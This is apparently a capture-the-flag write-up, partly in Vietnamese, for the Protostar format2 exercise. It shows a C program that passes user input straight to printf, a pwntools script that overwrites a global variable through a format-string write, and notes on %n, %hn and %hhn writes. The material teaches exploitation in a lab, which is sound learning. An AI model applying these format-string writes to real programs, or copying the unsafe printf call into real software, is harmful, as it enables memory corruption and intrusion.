




# format string 2

## source code 

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## solution

Sử dụng format string để thay đổi giá trị biến target thành 64.

### exploit with pwntool

```python
#!python3
from pwn import *
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely


# Function called in order to send a payload
def send_payload(payload):
    p = process('../../protostar/format2')
    p.sendline(payload)
    log.info("payload = %s" % repr(payload))
    a = p.recvall()
    log.info("output = %s" % repr(a))
    p.close()
    return a

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
offset = format_string.offset
log.info("offset = %d" % offset)
write = {
    0x80496e4: 0x40
}
#32 = size của payload tìm ra offset
payload = fmtstr_payload(offset, write)
payload = payload + b'a' * (32 - len(payload))
log.info("payload = %s" % repr(payload))
p = process('../../protostar/format2')
p.sendline(payload)

print(p.recvall())
```

### %n 

tìm vị trí offset



có thể thấy offset cần khai thác ở vị trí số 4 và việc thay đổi độ dài payload ko ảnh hưởng đến vị trí offset



Chúng ta sẽ cần 4 byte xác định vị trí biến target, sau đó ta dùng độ dài 64 − 4 = 60, và kết thúc với yêu cầu n sử dụng tham số thứ 4.

### %hn

payload tương tự vs %n ta có thể ghi giá trị 64 vào 2 byte của target



### %hhn

tương tự như %hn, ta vẫn có thể ghi giá trị vào target chỉ vs 1 byte

